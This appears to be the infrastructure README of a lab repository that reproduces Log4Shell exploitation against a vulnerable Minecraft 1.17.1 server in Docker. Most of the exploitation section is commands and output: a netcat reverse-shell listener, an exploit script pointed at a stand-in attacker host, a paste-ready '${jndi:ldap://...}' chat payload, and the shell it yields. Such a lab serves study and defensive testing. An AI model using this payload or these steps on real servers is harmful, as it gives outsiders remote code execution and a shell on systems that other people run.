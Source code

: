 # Infrastructure
This document describes how to re-create the lab infrastructure.
## Docker
The attacker machine host and ports can be customized by changing the following environment settings in a `docker-compose.override.yml` file:
```yaml
environment:
    PAYLOAD_SERVER_PORT: 8000
    HOSTNAME: "attacker.evil.com"
    REVERSE_SHELL_PORT: 6666
    LDAP_PORT: 389
hostname: attacker.evil.com
```
### Start containers
```
$ cd docker/
$ docker-compose up -d
```

### Legit player traffic
If you want to add some background noise, connect with a regular Minecraft client to your local server, mind to create a new Minecraft installation with v1.17.1 to be able to connect.

### log4j exploitation
```
# [term 0] udp reverse shell listener 
$ docker-compose exec hacker nc -u -nlvp 6666
Bound on 0.0.0.0 6666
```
```
# [term 1] try to exploit the server
$ docker-compose exec hacker python3 minecraft-log4shell.py -o -u user1234 -s vuln.minecraft-server.com -r hacker.evil.com --dns c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh --rce ldap://hacker.evil.com:389/#poc
....
[minecraft-log4shell] sending jndi:ldap rce udp bash reverse shell ...
Message (CHAT): {"translate":"chat.type.text","with":[{"insertion":"user1234","clickEvent":{"action":"suggest_command","value":"/tell user1234 "},"hoverEvent":{"action":"show_entity","contents":{"type":"minecraft:player","id":"c963d30f-bd07-3969-a89d-9702f2f81e56","name":{"text":"user1234"}}},"text":"user1234"},"${jndi:ldap://hacker.evil.com:389/#poc}"]}
[minecraft-log4shell] disconnecting...
```
Alternatively connect via a regular Minecraft client and paste this in the chat:
```
${jndi:ldap://hacker.evil.com:389/#poc}
```
After RCE you will get a shell:
```
# [term 0]
...
Connection received on 192.168.112.3 59611
$ id 
uid=1000(minecraft) gid=1000(minecraft) groups=1000(minecraft)
$ 
```
